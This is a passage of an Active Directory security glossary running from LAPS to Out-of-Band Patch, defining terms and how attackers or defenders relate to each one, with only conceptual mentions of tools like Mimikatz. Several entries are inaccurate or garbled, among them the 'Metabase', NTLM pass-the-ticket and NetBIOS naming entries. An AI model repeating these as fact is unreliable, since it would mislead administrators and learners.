\runinhead{Local Administrator Password Solution (LAPS)} A Microsoft tool that helps organizations manage local administrator passwords for computers associated with the domain. It helps mitigate the risk of a pass-the-hash attack by randomly generating and storing a different password for each machine’s local administrator account in Active Directory. In terms of cybersecurity, the implementation of LAPS can significantly improve an organization’s security posture by limiting the possibilities of lateral movement for attackers who have gained access to local administrator credentials on a machine.

\runinhead{Local Groups} Groups that exist on a local machine. If an attacker gains control of a local group, they can change permissions and gain additional privileges.

\runinhead{Local Policies} Sets of rules defined on a local machine that dictate how that specific system behaves. If not configured properly, these can provide a loophole for security breaches.

\runinhead{Local Security Authority (LSA)} The LSA is responsible for local security policy and user authentication. Cyberattacks often target LSA secrets, as they contain sensitive security data and credentials.

\runinhead{Local Security Authority Subsystem Service (LSASS)}
\textit{Pronounced:} \textbf{/ˈɛl.sæs/} or \textbf{“L-sass”}
The Local Security Authority Subsystem Service is a critical Windows process responsible for managing the enforcement of security policies, user authentication, and account management. It plays a vital role in verifying user logins, managing passwords, and generating access tokens. Adversaries often target LSASS because it stores sensitive information, such as credentials, in memory, making it a prime target for attacks such as credential dumping.

\runinhead{Local User} User accounts that exist specifically on a local machine and are not domain-based. If not secured properly, they can be used by attackers to gain a foothold on a network.

\runinhead{Locked Accounts} User accounts that have been locked due to numerous incorrect login attempts. An attacker might deliberately lock accounts to cause a denial of service or to disguise their activities.

\runinhead{Lockout Threshold} The Lockout Threshold parameter defines the number of invalid login attempts allowed before the account is locked. This parameter is crucial to thwarting brute-force attacks.

\runinhead{Login Cache} Active Directory stores a cache of user-login information locally on the system. If this cache is not properly secured, it can be exploited to gain unauthorized access to user accounts.
\textit{See also: Cached credentials}

\runinhead{Logon Hours} Defines the hours during which a user is allowed to log on to the domain. If not properly managed, it could provide a window of opportunity for attackers during off-hours.

\runinhead{Logon Script} A file that is assigned to a user account and runs automatically when the user logs in. A logon script can adjust the settings in the operating system, map network drives for different groups of users, or even display a welcome message that is specific to each user. These scripts reside in a folder on the \texttt{SYSVOL} network share of a domain controller and thus are available throughout the domain. If malicious content is inserted into these scripts, it can result in a widespread compromise of the systems.

\runinhead{Logon Workstations} This parameter specifies the machines from which a user can log in. If not appropriately restricted, it can lead to attacks in lateral movement.

\runinhead{Loopback Processing} This Group Policy setting allows the same user to have different policies when logging on to different machines. The misconfiguration of this setting can lead to privilege escalation attacks.

\runinhead{LSA Protection} A security feature in Windows that prevents the LSASS process from being accessed. It mitigates the risk of attacks aimed at extracting sensitive information from the LSASS process, such as those carried out using the Mimikatz tool.

\runinhead{LSA Secrets} Data objects that are stored by LSA to hold sensitive data such as credentials. The extraction of these secrets is a common tactic in credential theft attacks.

\runinhead{LZ77 Compression} Used in the compression of the AD database (\texttt{NTDS.DIT}) data. Exploitation of this mechanism can lead to data corruption or theft.

\section*{M}
\runinhead{Machine Account} A machine account in Active Directory is an automatically created account that represents a computer when it joins a domain. These accounts have their own credentials (passwords stored in AD) and are used to authenticate the machine to the domain. Attackers often target machine accounts during privilege escalation because they typically have less oversight than user accounts but can still be leveraged for service tickets and lateral movement. The thought process behind securing machine accounts is to treat them as sensitive AD objects, enforce strong password policies, and monitor for abnormal activity.

\runinhead{Machine Learning (ML)} A subset of AI focused on building algorithms that learn from and make predictions or decisions based on ingested data sets. In security, CL enables automated malware classification, spam filtering, and intrusion detection systems.

\runinhead{Machine Security Identifier (SID)} A Machine Security Identifier (SID) is a unique value that Windows assigns to each computer’s Security Accounts Manager (SAM) database. Within Active Directory, machine SIDs help identify and authenticate computers as trusted objects in the domain. The thought process behind protecting machine SIDs is to prevent attackers from impersonating legitimate domain-joined devices. If an attacker obtains or forges a machine SID, they may gain unauthorized access to network resources, move laterally, or exploit trust relationships within Active Directory.

\runinhead{Malspam} Malspam (malicious spam) refers to unsolicited emails used to deliver malware, phishing links, or malicious attachments to unsuspecting users. In an Active Directory environment, malspam is often the entry point for attackers who then take advantage of compromised user credentials, escalate privileges, and move laterally across domain-joined systems. The primary goal behind malspam is to exploit human error and weak email security as a gateway into AD, making email filtering, user awareness training, and AD-specific monitoring critical defenses.

\runinhead{Maintenance Mode} A state in which a server can be placed when applying updates or performing some other maintenance task. Failing to properly secure a server during maintenance can expose the system to potential attacks.

\runinhead{Malware} Malware is \textbf{mal}icious soft\textbf{ware} or code intended to damage or destroy computer systems and other personal devices by various means, including stealing data, gaining unauthorized access, sharing private information, etc. Cyberattackers can use malware to weaponize Active Directory and map possible attack paths, making it crucial for organizations to increase their focus on AD security and recovery. 

\runinhead{Man-in-the-Middle (MiTM) Attack} A man-in-the-middle (MiTM) attack is a cyberattack where the attackers' aim is to intercept, inspect, and even modify data exchanged between two parties (e.g., two users, a user and an application, a workstation and a server computer). This attack can lead to data breaches, exposing sensitive information and providing unauthorized access to network resources. In an Active Directory environment, MiTM can target protocols such as Kerberos or LDAP, allowing attackers to steal session tokens or credentials. The thought process behind MiTM in AD is to impersonate legitimate users or domain controllers, allowing escalation or persistence of privileges.

\runinhead{Managed Service Account (MSA)} A type of domain account that automatically manages password management, eliminating the potential for password expiration that could cause service interruptions. These accounts can be targeted for privilege-escalation attacks.

\runinhead{\texttt{ManagedBy}} An attribute in AD that specifies the user or group that manages an object. Misuse can lead to unauthorized access to resources.

\runinhead{Mandatory Attribute} An attribute defined in the Active Directory Schema as mandatory for a class of objects. For example, for a user object, 'sAMAccountName' is a mandatory attribute.

\runinhead{Mapped Drives} Network drives mapped to an individual system. If an attacker gains access to a system with mapped drives, they could potentially access sensitive data or spread ransomware across the network.

\runinhead{Maze} The Maze ransomware variant, discovered in 2019, is considered the first in which cyber attackers not only encrypted data, but also threatened to leak victims’ confidential data if their demands were not met. Maze usually gains access via phishing emails and then uses various techniques to move laterally through the network. It compromises and leverages Active Directory (AD) to propagate the ransomware payload to as many systems as possible.

\runinhead{Member Server} computer running a Windows Server operating system that is a member of an Active Directory domain but is not a domain controller.

\runinhead{\texttt{MemberOf}} This attribute contains the Distinguished Names of groups to which an object (user or group) belongs. Misconfiguration can lead to unauthorized access to resources.

\runinhead{Membership Caching} A feature in AD that allows caching of universal group membership for a user on a site to improve logon performance. If the cache data are not secured properly, it can be exploited to gain unauthorized access.

\runinhead{Message Queuing (MSMQ)} MSMQ is a messaging protocol that allows applications running on separate servers or processes to communicate. If not properly secured, it can be a potential point of exploitation, allowing unauthorized messages or commands.

\runinhead{Metabase} An AD database that stores the metadata for objects in Active Directory. If this database is compromised, an attacker can change the metadata associated with the AD objects.

\runinhead{Metadata} In the context of Active Directory, the data about the data in the directory refers to the data. This includes information on when and how data objects were created, modified, accessed, or deleted, including by whom. From a cybersecurity perspective, metadata can provide crucial information during a security investigation or audit, as it can reveal unauthorized changes, access patterns, or indicators of compromise.

\runinhead{Metasploit} Metasploit is a framework for penetration testing that makes hacking simple. It is an essential tool in an attacker’s arsenal, with numerous exploits, including those targeting AD environments.

\runinhead{Metaverse} The metaverse is a conceptual, immersive digital universe that blends physical reality with virtual environments, often accessed through 3D avatars, augmented reality (AR), and virtual reality (VR) platforms. In a cybersecurity context, the metaverse presents new challenges and risks, including identity theft, data privacy violations, platform abuse, and digital asset manipulation. With the rise of blockchain technologies, digital economies, and persistent virtual spaces, the metaverse expands the attack surface into areas where traditional security frameworks may not yet apply as of this writing.

\runinhead{Microsoft Challenge-Handshake Authentication Protocol (MS-CHAP)} A Microsoft-created authentication protocol, MS-CHAP has been found to have vulnerabilities and can be exploited if used for network authentication.

\runinhead{Microsoft Defender for Identity (MDI)} Microsoft Defender for Identity (formerly Azure Advanced Threat Protection) is a cloud-based solution that uses on-premises Active Directory signals to detect and respond to cybersecurity threats and compromised identities. Defender for Identity monitors and analyzes user and client activities and information across the network, creating a behavioral baseline for each user. MDI then alerts on unusual client or user activity as established by this baseline.

\runinhead{Microsoft Identity Integration Server (MIIS)} A centralized service for managing identities in multiple directories. If MIIS is breached, an attacker could manipulate identity data across systems.

\runinhead{Microsoft Identity Manager (MIM)} MIM is a service that provides tools and technologies to manage identities, credentials, and identity-based access policies in heterogeneous environments. MIM includes features for identity synchronization, certificate and password management, and user provisioning.

\runinhead{Microsoft Management Console (MMC)} MMC hosts administrative tools called snap-ins, including many for AD, such as the Active Directory Users and Computers snap-in. Inappropriate access to MMC can lead to unauthorized changes in AD.

\runinhead{Mimikatz} Mimikatz is an open source post-exploitation tool primarily used in Windows environments to extract plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory. It can be used to mount Golden Ticket attacks, in particular, that exploit Kerberos vulnerabilities, allowing attackers to generate a ticket-granting ticket (TGT) and gain domain-level privileges. It is also used to perform pass-the-hash attacks that allow an attacker to authenticate to a remote server or service by using the underlying NTLM or LanMan hash of a user’s password. Additionally, the tool can be used to launch Silver Ticket attacks that involve creating fraudulent service tickets and allow access to a specific service on a specific machine, but can go undetected by the domain controller. Mimikatz was developed by Benjamin Delpy and is used by cybersecurity professionals for penetration testing and red team exercises, as well as by malicious actors for credential theft and lateral movement within a network.

\runinhead{MITRE ATT\&CK Framework} The MITRE ATT\&CK Framework is a commonly used tool to understand current security coverage and determine how to improve it. This knowledge base provides foundational information that can be used to develop threat models and is a popular tool for building comprehensive security plans. 

\runinhead{Mixed Mode} This term refers to the domain functional level of Active Directory when there are Windows NT 4.0 domain controllers present. In mixed mode, certain advanced features are disabled, making AD more susceptible to security risks.
\textit{See also: Native mode}

\runinhead{Mount Point} A location in a directory hierarchy where a volume is attached, providing additional file system locations. If a mount point is not secured properly, an attacker could gain unauthorized access to sensitive data.

\runinhead{\texttt{Move-ADDirectoryServer}} This PowerShell cmdlet is used to move a directory server to a new site. It is useful in larger organizations for managing the topology of Active Directory.

\runinhead{\texttt{\texttt{Move-ADDirectoryServerOperationMasterRole}}} This PowerShell command transfers one or more operations master (FSMO) roles to a specified domain controller.
\textit{See also: Flexible Single Master Operations (FSMO) Roles}

\runinhead{\texttt{\texttt{Move-ADObject}}} This PowerShell cmdlet is used to move an object or a container of objects to a different container or domain. 

\runinhead{\texttt{\texttt{MoveTree}}} This command-line tool is used to move AD objects between domains. Misuse can lead to accidental or malicious relocation of objects, leading to inconsistencies and potential breaches.

\runinhead{\texttt{\texttt{msDS-AllowedToDelegateTo}}} This attribute defines which services an account can represent in a Kerberos delegation. A misconfiguration can lead to privilege escalation and Kerberos delegation attacks.

\runinhead{\texttt{\texttt{msDS-Behavior-Version}}} This attribute dictates the Domain and Forest functional level of the AD. A lower functional level may expose the AD to vulnerabilities, as some security improvements are only available at higher levels.

\runinhead{\texttt{\texttt{msDS-ConsistencyGuid}}} This attribute is used as the source anchor attribute in Azure AD Connect. Misconfiguration can cause sync issues between on-premises AD and Azure AD, potentially causing authentication issues.

\runinhead{\texttt{\texttt{msDS-LastSuccessfulInteractiveLogonTime}}} This attribute stores the timestamp of the last successful interactive logon for the user. Unusual log-in times can indicate a potential security breach.

\runinhead{\texttt{\texttt{msDS-LockoutDuration}}} This attribute determines the length of time an account remains locked after exceeding the account lockout threshold. If too short, it may not prevent brute-force attacks effectively.

\runinhead{\texttt{\texttt{msDS-OptionalFeature}}} Optional features that have been enabled or disabled in an Active Directory forest. Misconfiguring these features could expose the forest to security risks.

\runinhead{\texttt{\texttt{msDS-PasswordSettings}}} This attribute contains the Fine-Grained Password Policies that are applied to user or group objects. If these settings are lax or misconfigured, it can leave user accounts vulnerable to brute-force or password-spray attacks.

\runinhead{\texttt{\texttt{msDS-PreviousSuccessfulLogon}}} This attribute stores the timestamp of the second most recent successful user logon. Anomalous login times can indicate a potential security breach.

\runinhead{\texttt{\texttt{msDS-PrimaryComputer}}} This attribute represents a user’s primary computer. If manipulated, the attribute can allow an attacker to impersonate a user machine, potentially leading to unauthorized access.

\runinhead{\texttt{\texttt{msDS-ReplValueMetaData}}} This attribute contains replication metadata for linked attributes, such as group memberships. A threat actor with access to this attribute can potentially alter group memberships, leading to privilege escalation.

\runinhead{\texttt{\texttt{msDS-SupportedEncryptionTypes}} }This attribute indicates the encryption types that the user account supports for Kerberos pre-authentication. Weak encryption types can make the account vulnerable to Kerberos-based attacks.

\runinhead{\texttt{\texttt{msDS-User-Account-Control-Computed}}} This attribute stores flags that dictate the status of the user account, like if it’s disabled, locked out, or has an expired password. Unauthorized manipulation of these flags can lead to privilege escalation or unauthorized access.

\runinhead{\texttt{\texttt{msDS-UserPasswordExpiryTimeComputed}}} This attribute provides the precise time when a user’s password will expire. If not properly managed, it can provide a window of opportunity for attackers to attempt credential-based attacks.

\runinhead{\texttt{\texttt{msiexec}}} A command-line interface utility for the Microsoft Windows Installer, which is used for installing, maintaining, and removing software.

\runinhead{\texttt{\texttt{msv1\_0}}} This authentication package in Windows deals with NTLM hashes. The famous pass-the-hash attack often targets this package, as NTLM hashes can be reused for authentication without cracking.

\runinhead{Multi-Site Clustering} A feature that allows clusters to span multiple Active Directory sites to improve availability. If not properly configured and secured, this type of clustering can become a potential attack vector.

\runinhead{Multi-Valued Attribute} An attribute of an object that can contain more than one value. Multivalued attributes can have no value, one value, or more than one. For example, the \texttt{memberOf} attribute for a user object, which contains a list of all groups the user belongs to.

\runinhead{Multi-Cloud Security} Multi-cloud security solutions help protect your infrastructure, application, and data on the cloud systems of multiple cloud providers.

\runinhead{Multifactor Authentication (MFA)} MFA is a security mechanism that requires users to prove their identity using two or more independent methods, or factors, before they are granted access. These factors can include something you know (like a password), something you have, such as a hardware token or a mobile phone), and something you are (like a fingerprint or other biometric factor). In the context of Active Directory, the implementation of MFA can greatly increase security by making it harder for attackers to gain access even if they have compromised a user’s password, reducing the risk of a successful phishing, password spray, or brute-force attack.

\runinhead{Multimaster Replication} Active Directory’s ability to allow changes to occur in any DC, which then replicates the changes to other DCs. If an attacker compromises a single DC, they could propagate malicious changes to others.

\runinhead{\texttt{\texttt{MutableID}}} A unique identifier used by Microsoft for an object in a directory. Unauthorized changes could lead to loss of access or inconsistencies in the directory.

\runinhead{Mutual Authentication} A security feature in which both the client and the server validate each other’s identity before establishing a connection. Without this, it is easier for an attacker to conduct Man-in-the-Middle (MiTM) attacks.

\section{N}
\runinhead{Name resolution} The process of resolving a hostname to an IP address within a network. Attacks such as DNS spoofing can manipulate this process to redirect network traffic.

\runinhead{Named Pipes} In the context of AD, Named Pipes are a method of interprocess communication (IPC). They are subject to IPC-related vulnerabilities such as DLL Hijacking or Named Pipe Impersonation.

\runinhead{Namespace} In Active Directory, a namespace is a container that holds objects such as users, computers, and other organizational units. A well-designed namespace can help prevent many security issues such as name clashes and replication errors.

\runinhead{Naming Context (NC)} Also known as Directory Partition in Active Directory, an NC is a portion of the directory that can be replicated to domain controllers. There are three types of NCs:

Schema
Configuration
Domain

\runinhead{Native Mode} A Domain Functional Level (DFL) that only applies to Windows 2000 Server, and that does not support Windows NT domain controllers. Once in native mode, the domain will support nested groups. The alternative is mixed mode.
\textit{See also: Mixed mode}

\runinhead{\texttt{nbstat}} A command-line utility to report NetBIOS over TCP/IP statistics.

\runinhead{Nested Groups} In Active Directory, groups can contain other groups, allowing hierarchical organization; however, nesting can lead to unintentional permission escalation and access to resources if not managed carefully.

\runinhead{\texttt{net use}} A command-line tool used to connect, disconnect, and configure connections to shared resources, like network drives and printers. If misused, this tool could lead to unauthorized access to resources.

\runinhead{NetBIOS} The acronym for Network Basic Input/Output System is a networking protocol used by Windows systems for communication on a local network. The NetBIOS name of a computer is generally the first 15 characters of the host name, followed by the character `\$\textperiodcentered` The resolution of NetBIOS names to IP addresses is provided by local broadcasts and the WINS service.

\runinhead{netcat} Known as the “Swiss Army knife” for TCP/IP, Netcat can read and write data across network connections. Attackers can use Netcat to create backdoors, transfer files, or carry out network exploration.

\runinhead{\texttt{netlogon}} A Windows service used for user and computer authentication in older operating systems. A share called Netlogon is automatically created on all domain controllers for backward compatibility and can hold logon scripts. The recent ZeroLogon exploit allowed attackers to gain control over the domain controller using this service.

\runinhead{\texttt{netsh}} A command-line scripting utility that, among other things, enables the modification of network configurations. Attackers could misuse this tool to manipulate network traffic or exfiltrate data.

\runinhead{\texttt{netstat}} Netstat (short for \textit{network statistics}) is a command-line utility available on Windows, Linux, and other operating systems that displays active TCP/UDP connections, listening ports, routing tables, and interface statistics. In Active Directory environments, administrators often use \verb|netstat| to identify which services are listening on domain controllers or to troubleshoot connectivity issues with AD-related services such as LDAP, Kerberos, or DNS. Attackers may also take advantage of  \texttt{netstat} during reconnaissance to map which ports are open and which AD services are reachable, making it a defensive and offensive tool.

\runinhead{Network Access Control (NAC)} Network Access Control (NAC) is a security solution that restricts device access to enterprise networks based on compliance with predefined security policies. Provides mechanisms for installing, enforcing, and locking down security rules that determine access to the internal LAN.

\runinhead{Network Access Protection (NAP)} Network Access Protection (NAP) is a deprecated Microsoft technology that enforced health policies on devices that attempt to connect to an enterprise network. Before access was granted, devices were evaluated for compliance with security requirements, such as up-to-date patches, antivirus status, or firewall settings. In Active Directory–integrated environments, NAP worked alongside Group Policy to enforce these standards. Although Microsoft retired NAP in Windows Server 2012 R2, its legacy still appears in some environments. If left enabled or poorly configured, attackers could bypass weak enforcement, gaining access to internal AD resources with non-compliant or even compromised machines.

\runinhead{Network Address Translation (NAT)}Network Address Translation (NAT) is a process by which a router or firewall translates private IP addresses within a local network into a single public IP address (or a pool of public addresses) for communication with external networks such as the internet. Although NAT is not a core part of Active Directory, it often exists in hybrid AD/cloud deployments or perimeter defenses where AD resources need selective exposure to the Internet. Misconfigured NAT rules can accidentally expose domain controllers, Remote Desktop Protocol (RDP), or LDAP ports, creating serious attack vectors for adversaries to directly target AD infrastructure.

\runinhead{Network Discovery} This refers to the process of identifying all devices in a network. In the context of Active Directory, ensure that only authorized individuals can perform network discovery to prevent unwanted reconnaissance.

\runinhead{Network File System (NFS)} Network File System (NFS) is a distributed file system protocol that allows systems to share files on a network as if they were on a local disk. Although more common in UNIX/Linux environments, Windows also supports NFS through optional services. In mixed AD/UNIX environments, NFS can integrate with Active Directory for authentication via Kerberos; however, misconfigured NFS shares can expose sensitive files (such as AD backup data or credential caches) to unauthorized access. Attackers frequently investigate NFS exports during enumeration to find credentials or AD-related configuration data.

\runinhead{Network Interface} A network interface represents the point of interconnection between a computer and a network. In Active Directory environments, every domain controller, client, and server relies on a properly configured interface to communicate with LDAP, Kerberos, DNS, and other critical AD services. Misconfigured network interfaces (e.g. incorrect DNS settings) can cause AD authentication failures or replication breakdowns. Attackers may manipulate virtual or physical network interfaces to redirect traffic, perform sniffing, or inject malicious responses into AD-related communication flows.

\runinhead{Network Level Authentication (NLA)} Network Level Authentication (NLA) is a security feature of the Remote Desktop Protocol (RDP) that requires a user to authenticate before establishing a full RDP session with a server. When enabled on domain-joined machines, NLA helps reduce the attack surface by requiring valid AD credentials before any RDP logon attempt. Without NLA, attackers can flood RDP with brute-force attempts or exploit unpatched vulnerabilities like BlueKeep. Because domain controllers and Tier 0 systems are often targets for RDP abuse, enforcing NLA is considered an essential AD security best practice.

\runinhead{Network Listener} A network listener is a process or service that actively listens to incoming connections on a specified port and protocol. For example, a domain controller runs listeners for LDAP (389/636), Kerberos (88), and DNS (53). Administrators can use tools such as \texttt{netstat} or \texttt{Get-NetTCPConnection} in PowerShell to enumerate active listeners in AD systems. From a security perspective, each listener represents a potential attack surface; if unnecessary services are listening, attackers may attempt exploitation or brute-force attacks to gain access to Active Directory. Hardening AD often involves auditing and minimizing exposed network listeners to reduce lateral movement paths.

\runinhead{Network Policy Server (NPS)} NPS is the Microsoft implementation of a RADIUS server and proxy. As with any authentication system, it is a critical security component, and any compromise can lead to unauthorized network access.

\runinhead{Network Segmentation} A security practice in which different portions of a network are separated from each other. This can limit the spread of lateral movement in an Active Directory compromise.

\runinhead{Network Services} The services (e.g. DNS, DHCP) that are made available from a server to a private or public network. If these services are compromised, it can have a direct impact on the security of the Active Directory environment.

\runinhead{Network Sniffing} Network sniffing refers to the use of network protocol analyzers or similar tools to capture and analyze network traffic. In the context of AD, this could potentially expose sensitive unencrypted data.

\runinhead{Network Time Protocol (NTP)} A networking protocol for clock synchronization between computer systems over packet-switched, variable-latency data networks. In Active Directory, accurate timekeeping is essential for Kerberos authentication, as there is a maximum time difference (5 minutes by default) allowed between the time on the client and the time on the server. If an attacker can manipulate NTP responses on a network, they could potentially exploit this for replay attacks or even to cause authentication failures across the network; therefore, it is crucial to secure NTP communications.

\runinhead{New Technology Directory Services (NTDS)} NTDS stands for Windows NT Directory Services and describes the fundamental directory services that facilitate the management and organization of network resources.

\runinhead{New Technology File System (NTFS)} The New Technology File System (NTFS) is the file system that the Windows NT operating system uses to store and retrieve files on a hard disk. NTFS is the primary file system for recent versions of Windows and Windows Server.

\runinhead{\texttt{New-ADOrganizationalUnit}} This PowerShell cmdlet is used to create a new AD Organizational Unit (OU). If misused, it can lead to the creation of unnecessary OUs, disrupting the structure of AD, and potentially masking unauthorized changes.

\runinhead{\texttt{New-ADUser}} A PowerShell cmdlet used to create a new user object in Active Directory. The use of an attacker could lead to the creation of backdoor accounts for persistent access.

\runinhead{NIST Cybersecurity Framework (NIST CSF)} The National Institute of Standards and Technology (NIST) is an agency of the US Department of Commerce. An example of how NIST executes its mission, 'to promote US innovation and industrial competitiveness by advancing measurement science, standards, and technology in ways that improve economic security and improve our quality of life', is the development of the NIST Cybersecurity Framework. This popular approach to identifying and resolving high-priority risks to Active Directory (AD) and other crucial systems comprises five phases:

1. Identify
2. Protect
3. Detect
4. Respond
5. Recover

\runinhead{Nmap ("Network Mapper")} Nmap is a security scanner that is used to discover hosts and services on a computer network, thus creating a “map” of the network. Attackers can use this scanner for network discovery and security auditing.

\runinhead{Nonauthoritative Restore} A nonauthoritative restore restores an AD domain controller to a point in time; however, because this type of restore is not marked as authoritative, if another domain controller has updated objects or attributes since the restored date and time of the target domain controller, those updates replicate in the restored domain controller, keeping its data current.
\textit{See also: Authoritative Restore}

\runinhead{Non-Delivery Report/Receipt (NDR)} An NDR indicates that a particular piece of communication (such as an email or a packet) has not been delivered. Cybercriminals can use NDRs to obtain information about the internal structure of an organization’s email system to perform a targeted attack.

\runinhead{Nonrepudiation} In the context of Active Directory, non-repudiation refers to the capability to ensure a party in a dispute cannot deny the validity of the evidence (like a user denying his activities). A weak audit policy can lead to poor non-repudiation.

\runinhead{Normalization} The process of modifying data to fit a desired format. Attackers can bypass input validation checks through normalization inconsistencies.

\runinhead{NotPetya} The “wiper” malware of NotPetya acts like ransomware, but it does not have a way to reverse its encryption. NotPetya particularly affects Active Directory (AD), bringing operations to a halt. NotPetya is famous for its devastating attacks in 2017 that began in Ukraine and continued to cause an estimated—and unprecedented—\$10 billion in damages worldwide.

\runinhead{\texttt{nslookup}} A command-line utility to diagnose Domain Name Service (DNS) infrastructure problems.

\runinhead{NT Service Accounts} Built-in service accounts in Windows systems. If these accounts are compromised, they can often provide high levels of system access.

\runinhead{NT Service Hardening} NT Service Hardening restricts Windows services from performing abnormal activities on the file system, registry, network, or other resources that could be used to allow malware to persist or spread.

\runinhead{NTBackup} A built-in Windows backup utility. If an attacker can manipulate or access these backups, they may gain access to sensitive data.

\runinhead{Ntdetect.com} This is a Windows system file that is used in the boot process. Tampering with or compromising this file can lead to persistent system-level access for an attacker.

\runinhead{NTDS Quotas} NTDS quotas limit the number of objects a security principal can own in the directory. If not properly set, this could be leveraged for a Denial of Service (DoS) attack.

\runinhead{\texttt{NTDS.dit}}The AD database, known as the NTDS.dit file, is a critical directory services component stored on domain controllers. This database contains all information about user objects, including hashed passwords, so it is frequently targeted by attackers.

\runinhead{\texttt{ntdsutil.exe}} A command-line tool that provides management facilities for Active Directory Domain Services (AD DS) and Active Directory Lightweight Directory Services (AD LDS). If used maliciously, it can cause significant damage to AD services.
\textit{See also: Active Directory Domain Services (AD DS); Active Directory Lightweight Directory Services (AD LDS)}

\runinhead{NTDSXtract} A tool for extracting AD data from \texttt{ntds.dit} files (the AD database). NTDSXtract can be used to discover usernames, group memberships, password policies, and more. This data can aid an attacker in planning and conducting attacks.

\runinhead{NTFS Permissions} Permissions on file system objects on NTFS volumes, managed through Active Directory. Misconfigurations can lead to unauthorized access to data or denial of service.

\runinhead{NTLM (New Technology LAN Manager)} NTLM is a collection of security protocols used to authenticate, provide integrity, and confidentiality to users. Although Kerberos is the preferred authentication protocol and is used in modern Windows versions, NTLM is still available for older clients and systems in a workgroup. NTLM has several security flaws, prone to various attacks such as pass-the-hash and pass-the-ticket, that allow attackers to gain access to user passwords and should therefore be avoided.

\runinhead{NTLM Relay Attack} In an NTLM relay attack, an attacker intercepts NT LAN Manager (NTLM) authentication sessions between computers on a network and then forwards (relays) the credentials to another host on the network. This enables the attacker to execute commands or access resources on the second host using the intercepted credentials.

\runinhead{NTLMRecon} A tool built with the aim of making NTLM protocol-based reconnaissance fast and easy. It can be used to identify domains and services which support null sessions.

\runinhead{Null Bind} A type of anonymous bind in LDAP. When null bind is enabled, it can allow an anonymous user to connect to the directory and potentially access sensitive information.

\runinhead{Null Session} Null sessions in Windows are unauthenticated NetBIOS sessions, which can allow an attacker to gather a wealth of information about the system.

\section*{O}
\runinhead{OAuth} OAuth is an open standard authorization protocol that allows applications to access user resources without exposing credentials. Enables delegated access using access tokens, commonly used in APIs and federated authentication systems.

\runinhead{Object} In Active Directory, an object is a distinct and named set of attributes that represent something on the network, such as a user, a computer, or a group. Securing these objects is vital, as their compromise can enable attackers to gain unauthorized access or elevate their privileges.

\runinhead{Object Access Auditing} This feature enables you to collect information whenever a specified type of object is accessed. Lack of appropriate auditing could allow malicious activity to go unnoticed.

\runinhead{Object Deletion} This Active Directory event occurs when an object, such as a user or a group, is removed. Monitoring for unexpected object deletions is important to catch potential malicious activity.

\runinhead{Object Identifier (OID)} This globally unique value is used to identify a variety of things, including schema attributes and classes, security mechanisms, and name forms. OIDs are crucial for the interoperability and extensibility of the directory service. In many LDAP directory implementations, an OID is the standard internal representation of an attribute. Each attribute in the Active Directory schema has a unique X.500 OID. All OID values that are created by Microsoft begin with 1.2.840.113556.

\runinhead{Object inheritance} Object inheritance is a property of Active Directory objects in which child objects inherit the permissions of their parent objects. Incorrect settings can lead to excessive permissions being accidentally granted.

\runinhead{\texttt{ObjectCategory}} This attribute is used to group similar classes together. Incorrect configuration can lead to misclassifications and potential security vulnerabilities.

\runinhead{\texttt{ObjectClass}} This attribute determines the kind of objects (e.g., user, computer, group) that are stored within Active Directory. It also specifies the set of must-have attributes (i.e., every object of the class must have at least one value of each) and may-have attributes (i.e., every object of the class may have a value of each). \texttt{ObjectClass} is defined in a \texttt{classSchema} object. Manipulation of this attribute can enable an attacker to mask malicious activity.

\runinhead{\texttt{ObjectGUID}} A unique identifier for an object in Active Directory, which remains constant. Attackers could use\texttt{ objectGUIDs} to maintain persistence in the environment.

\runinhead{\texttt{ObjectSID}} This unique identifier is assigned to each object in an Active Directory domain. If an attacker can manipulate these identifiers, they could gain unauthorized access.

\runinhead{Offline Domain Promotion} This process enables a computer to join a domain without needing network connectivity. A potential attack vector could force a device to join a domain controlled by an attacker.

\runinhead{Offline NT Password \& Registry Editor} This tool can be used to change the password of any user who has a valid local account on a Windows system. If an attacker gains physical access to a system, they can use such tools to gain access to a local account and potentially escalate their privileges.

\runinhead{Okta} This popular identity and access management (IAM) platform provides cloud software to help companies manage and secure user authentication in modern applications and to build identity controls in applications, web services on the website and devices. It can be integrated with Active Directory to manage user access across on-premises and cloud environments. If compromised, it can lead to widespread unauthorized access.

\runinhead{\texttt{Oldcmp}} This command-line tool, developed by Joe Richard (DS-MVP) to query Active Directory for unused computer or user accounts, can also clean up accounts.

\runinhead{On-Premises Directory Sync (DirSync)} This tool is used to replicate Active Directory information on premises to Microsoft cloud services. A compromise of DirSync could expose sensitive on-premises Active Directory data to an attacker.

\runinhead{One Time Password (OTP)} A password that is valid for only one session or transaction of log-in. It is commonly used in two-factor authentication systems to provide an additional layer of security beyond just a username and password.

\runinhead{One-Way Trust} In Active Directory, a one-way trust is a unidirectional authentication path created between two domains. If an attacker compromises this, they could gain unauthorized access to resources in one domain while originating from the other.

\runinhead{Online Certificate Status Protocol (OCSP)} It’s an internet protocol used for obtaining the revocation status of an X.509 digital certificate. An attacker could perform an OCSP spoofing attack to imitate a certificate authority and issue fraudulent certificates.

\runinhead{Operating System (OS)} The underlying software that controls a computer or server. Hardening the OS of domain controllers is critical for Active Directory security.

\runinhead{OSI Model (Open Systems Interconnection Model)} The OSI model is a conceptual framework, developed by the International Organization for Standardization(ISO), that standardizes the functions of a telecommunication or computing system in terms of seven abstraction layers. Divides the complex process of network communication into seven (7) distinct layers, each with specific functions, roles, and responsibilities to enable network transmissions to be uninterrupted. The OSI model provides a universally understood language for discussing network protocols and troubleshooting network issues.

\runinhead{Operational Attributes} Attributes that the directory automatically provides, such as \texttt{creationTimeStamp}. These attributes are calculated by a domain controller upon request. They can be used to track actions and changes in objects. An LDAP search request requesting 'all attributes' does not return operational attributes and their values. Attackers might attempt to manipulate or clear these to hide their activities.

\runinhead{Optional Attribute} An attribute defined in the schema as optional for a class of objects. Unlike mandatory attributes, optional attributes are not required to have a value.

\runinhead{Organizational Identity} In terms of Active Directory, organizational identity refers to the credentials and identifiers that belong to a company or organization. Protecting these identifiers is crucial to prevent attackers from masquerading as legitimate entities within the organization.

\runinhead{Organizational Unit (OU)} An OU is a container type within an Active Directory in which you can place users, groups, computers, and other organizational units. OUs can be used to assign group policies and manage resources, and misconfiguration can lead to inappropriate access.

\runinhead{Orphaned Object} An orphaned object remains in the directory database but has been deleted in every practical sense because its parent object was deleted. These objects can be exploited by an attacker to hide their activities or maintain persistence in an environment.

\runinhead{OS Provisioning} Operating system (OS) provisioning is the act of installing a given operating system on several hosts. 

\runinhead{Out-of-Band Patch} This type of patch is released at an unscheduled time, usually to address a specific vulnerability. Apply these patches quickly to avoid exploitation.

